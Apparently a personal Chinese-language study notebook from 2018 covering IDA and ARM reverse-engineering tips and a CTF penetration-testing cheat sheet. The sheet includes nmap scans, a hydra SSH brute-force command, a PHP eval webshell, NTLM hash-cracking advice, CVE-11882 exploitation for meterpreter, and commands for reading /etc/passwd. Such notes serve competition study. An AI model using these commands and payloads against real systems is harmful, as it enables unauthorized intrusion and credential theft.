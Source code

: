 ### 2018/5/12
1  ida在汇编界面中“/”斜线是将F5伪代码实时显示在汇编中，“:”冒号才是加备注；在F5伪c界面中“/”斜线是加备注。
2  释放某端口，如adb使用的8700端口【lsof -i :8700】，可以直接利用kill来杀掉进程【kill -9 PID】，相应端口即可释放掉。
3  ida动态调试中有时候在一个函数中却无法F5，这时候你需要先按一下【P键】，程序会将这段代码作为函数分析，然后再按一下”F5”，就能够看到反汇编的函数了。
4  ARM中的跳转指令是根据相对地址计算的，所以你要根据当前指令地址和目标地址来计算出相对跳转的值。
5  数据位有时是指针的指针形式，可按【D键】，将这里的数据格式从字符转化为指针形式，然后再双击进入这个地址查看实际字符串。
6  Windows下NTLM密码格式用户名称:RID:LM-HASH值:NT-HASH值如：Administrator:500:C8825DB10F2590EAAAD3B435B51404EE:683020925C5D8569C23AA724774CE6CC:::
仅仅知道LM或者NT的hash值是可以解密的，因为其是针对密码进行的不同加密。仅知道NT直接去cmd5搜，知道其中一个或者两者都知道可以直接去国外的那个网站搜，两者都知道会加大破解的力度，但如果仅知道LM的hash破解出来会是大写，因为其加密首先将密码大写。

### 2018/5/11
1  全架构汇编转机器码：keystore【kstool】。使用直接：kstool arm 'nop'。
2  ida自带的patch管理可以随意还原指定点的修改，keypatch右键有个undo撤销功能。ida自带的patch不适用ARM。
3  ida动态调试，查看R1等寄存器的值，在右上找到R1寄存器地址，在hex界面【快捷键G】跳转到R1处。
4  ARM一句汇编默认四个字节。
5  capstone，keystone，unicorn三剑客。机器码【16进制shellcode】到汇编，汇编到机器码，模拟执行，然后都全架构，全部出自一人，简直无敌。

### 2018/5/10
1  cat /etc/passwd | awk -F: '$3==0 {print $1}' 
2  查看用户：在线 who【w】、登陆历史 last。
3  ARM是没有单独的NOP指令的，于是我们采用movs r0,r0作为NOP，对应的机器码为”00 00 A0 E1”。或者使用插件直接NOP。

### 2018/5/8
1  当访问某个对象的属性时，会无条件的调用\_\_getattribute\_\_方法。比如调用t.\_\_dict\_\_,其实执行了t.\_\_getattribute\_\_("\_\_dict\_\_")函数。

### 2018/5/6
1  添加路由，既能访问内网也能访问外网，不过内网渗透很不舒服...
sudo route add -net 202.1.0.0 -netmask 255.255.255.0 172.16.2.1
netstat -nr
2  数据赛：注意流量清洗，脚本使用tshark，见备忘录。
过滤关键字：
包含：ip.addr == 119.29.247.31 and http contains "p=16"
正则：ip.addr == 119.29.247.31 and http matches 'upload|alert|eval|select'
过滤并合并：
tshark -r 1.pcapng -Y 'http' -w 11.pcapng
mergecap -w result.pcapng 11.pcapng 22.pcapng
3  企业赛：渗透内网，利用cve-11882上传doc获取meterpreter会话，windows机器使用【dir /s/p c:\flag* 】模糊搜索c盘下文件名含flag的文件。
--------渗透部分-----------
1、nmap发现主机及其端口
主机：nmap -sP 192.168.43.0/24
端口：sudo nmap -sS 192.168.215.170  ||  sudo nmap -sS -p 1-65535 192.168.215.170
服务：sudo nmap -sV -O -Pn 192.168.215.170  ||  -sV -O 【-A 扫描脚本】
2、看敏感服务：FTP等
3、Web服务
快速判断架构：whatweb www.bodkin.ren
常规目录扫描：python3 dirsearch.py -u 链接：Go0s @ 老 锥 -e php
敏感目录泄露：python SourceLeakHacker.py 链接：Go0s @ 老 锥 2 5
爆破ssh、ftp、rdp等敏感服务：hydra -l root -p pass.txt -t 4 -vV -e ns ssh://192.168.1.1
4、一句话木马：<?php @eval($\_POST[a]);?>  大马：shell.php eval
--------EXP----------
1、Wordpress【wpcan】【wp-login.php、wp-config.php】：ruby wpscan.rb --url www.xxxx.com
2、AngelSword：
python3 AngelSword.py -s seacms
python3 AngelSword.py -r all -t 链接：Example Domain
-------拿到服务器权限--------
1、查看内网ip和路由信息：ifconfig、arp -a、route -n 
2、看新增用户：cat /etc/passwd
用户密码可能同用户名：su xxx xxx
3、查看历史命令：history
-------内网渗透-------